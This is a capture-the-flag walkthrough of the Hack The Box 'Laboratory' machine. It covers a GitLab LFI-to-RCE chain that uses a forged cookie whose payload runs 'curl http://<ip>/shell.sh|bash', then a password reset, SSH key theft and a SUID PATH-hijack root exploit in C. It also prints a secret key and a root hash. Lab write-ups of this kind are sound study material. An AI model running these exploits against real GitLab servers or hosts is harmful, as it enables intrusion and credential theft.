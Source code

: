 # Laboratory - Easy

Even though this is rated as an easy box it has a medium difficulty because of the number of steps you are required to but and also because even tough it has a Gitlab version that has a CVE asigned to it, we must exploit this by hand. 

### Initial nmap scan

In order to speed up the process I did two nmap scans, one with the ports: `nmap -p- -v laboratory.htb` and one with the found open ports: `nmap -sC -sV -oN nmap/all laboratory.htb -p22,80,443`. So in the end the result looks like this:

```
# Nmap 7.80 scan initiated Sat Nov 14 21:02:44 2020 as: nmap -sC -sV -oN nmap/all -p22,443,80 -v laboratory.htb
Nmap scan report for laboratory.htb (10.129.38.205)
Host is up (0.056s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeration on the port 443

If we try to enter on the port 80 we automaticaly get redirected to port 443, with the `http://laboratory.htb` as vhost. I've added this to my `/etc/hosts` file and started digging into the webservice. In the background I've run both nikto and ffuf for an output. On the main vhost there was nothing interesting, so I've switched to `git.laboratory.htb` which could've been found from the nmap detailed scan. 

Here we have a gitlab version in which we are actually able to register an account, but we must use an email adress with `@laboratory.htb` at the end. When we first login we can see a repository that seems to be the sourcecode of the main website. Well there is nothing inside here so I've started to wander around for GitLab cve's. And I came up with a [HackerOne report](https://hackerone.com/reports/827052) that found a LFI on Gitlab 12.8.7 and we were on 12.8.1 so it was 100% vulnerable to this. 

### Getting the foothold

In order to get the LFI was a preatty easy job to do, but if we look deep down into this article we can find that this LFI will escalate to RCE if we generate a malicious cookie. At this part I was stuck a while installing the Gitlab. So this are the steps that I've made:
- Get the secret cookie session from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` using the LFI part
- Download the gitlab using `wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ce/packages/debian/buster/gitlab-ce_12.8.1-ce.0_amd64.deb/download.deb`
- Install it with `apt install ./gitlab-ce_12.8.1-ce.0_amd64.deb`
- Now into the `/etc/gitlab/gitlab.rb` add `gitlab_rails['secret_key_base'] = '3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3'`
- From here you must run `gitlab-ctl reconfigure`
- And now to get that ruby interactive shell you should run `gitlab-rails console`

Now what's left to do is to generate the specific cookie with the following sequence:
```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl http://<ip>/shell.sh|bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
And to trigger it I've run `curl -vvv 'http://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=<cookie>`

### Escape from the docker container

Well we are finally in the box... but not quite. We are on a gitlab docker container which seems to have full access over the main application. In order to do this it seemed quite obvious that I should get dexter user so.. I've tried ways to leak his password and later crack it but I've found a better article that let me reset his password using the same ruby console. Here is the oficial documentation of [Gitlab](https://docs.gitlab.com/ee/security/reset_user_password.html) regarding this.

So the sequence was:
```
user = User.where(id: 1).first
#<User id:1 @dexter>
user.password = 'laboratory.htb12
user.password_confirmation = 'laboratory.htb123'
user.save!
```

If you wonder how I've knew that dexter's id was one, well I've just guess. I knew it should've been one of the firsts users to be registered on this platform so I tried a lower id number. 

Now that I know dexter's password I head back to `git.laboratory.htb` and logged in using `dexter:laboratory.htb123`. Here we can find a private repository called `SecureDocker` which has a suggestive description `CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.` so it's a hint that we must dig deeper.

Two folders later, we get the id_rsa of dexter.... to be exact inside `securedocker/dexter/.ssh`. I've downloaded it, removed any carrage returns (`\r`) and if there was something in the end now it's 100% deleted, also I've setup the permisssions to 600 and... `ssh -i dexter_rsa dexter@laboratory.htb`. 

### Getting root

I've uploaded linpeas to my box and started an enum really fast. Amoung the SUID files I've found one called `/usr/local/bin/docker-security`. If you issue a cut on it you can see that it runs `chmod 700 /usr/bin/docker` and `chmod 660 /var/run/docker.sock`. Being an SUID file we can modify the path and upload a different chmod binary that executes `/bin/bash`.

So on my local machine I've crafted this C payload and compiled with `gcc exploit.c -o chmod`. The only thing left was to upload it on the box and update the path.
```cpp
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("/bin/bash");
  return 0;
}
```

In order to update the path you can use `export PATH=/home/dexter:$PATH` and than just run `/usr/local/bin/docker-security`. 
> **Note**: The crafter chmod binary must be inside /home/dexter (or your chosen path) and it must have `/usr/bin/chmod +x chmod` setup.

Pwned. 

# Credentials
- $6$AMvgOmRCNzBloX3T$rd5nRPwkBPHenf6VLHfsXb066LNq0MZBRYeEsuCZviD8nQGvVLMaW9iH1hb5FPHzdl.McOJ8GrFIFfdSnIo4t1 (root hash)
